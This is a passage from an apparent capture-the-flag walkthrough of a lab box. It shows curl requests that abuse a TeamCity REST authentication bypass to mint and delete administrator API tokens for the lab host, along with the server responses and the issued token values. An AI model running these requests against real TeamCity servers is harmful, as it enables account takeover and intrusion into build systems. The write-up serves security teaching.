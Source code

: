 ### Get Token

Getting a token is a simple `curl` command:

```

oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-04-25T18:42:16.881Z" value="eyJ0eXAiOiAiVENWMiJ9.Zlp5ZkFqWkpJR1hRU0VTWnpKczBOR2hsZV9N. YjFiMjllMTYtYzE2NC00ODAwLWI3NDMtMTRiMWU3YTVmMTE5"/>

```

If someone else already has a token for this user, it will return a 400 error:

```

oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2
Responding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: Token already exists
Invalid request. Please check the request URL and data are correct.

```

I can try ID 2, and it works as well:

```

oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:2/tokens/RPC2
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-04-25T19:07:16.510Z" value="eyJ0eXAiOiAiVENWMiJ9.ald1LXdyQmlTV2JoVU1yNWt3LUpnT3VNMmNF. YjQyNjA5ZGQtMzU3Ni00Y2RkLWI0NTEtMjhhNDQ0NTEyOTA1"/>

```

ID 3 doesn’t exist, so that doesn’t work:

```

oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:3/tokens/RPC2
Responding with error, status code: 404 (Not Found).
Details: jetbrains.buildServer.server.rest.errors.NotFoundException: User not found
Could not find the entity requested. Check the reference is correct and the user has permissions to access the entity.

```

Or I can delete one of the existing tokens:

```

oxdf@hacky$ curl -X DELETE http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2

```

I’ll save that token in a variable for easy of use:

```

oxdf@hacky$ export TOKEN="eyJ0eXAiOiAiVENWMiJ9.Zlp5ZkFqWkpJR1hRU0VTWnpKczBOR2hsZV9N.YjFiMjllMTYtYzE2NC00ODAwLWI3NDMtMTRiMWU3YTVmMTE5"

```

